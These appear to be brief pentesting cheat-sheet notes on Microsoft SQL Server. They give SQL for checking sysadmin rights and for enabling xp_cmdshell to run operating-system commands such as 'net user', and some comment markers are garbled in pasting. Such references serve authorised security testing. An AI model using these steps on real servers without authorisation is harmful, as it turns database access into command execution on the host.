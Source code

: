 https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server


To check if is admin
```sql
select is_srvrolemember('sysadmin');
```

Set up the command execution xp_cmdshell
```sql
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```


activation of xp_cmdshell as follows:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

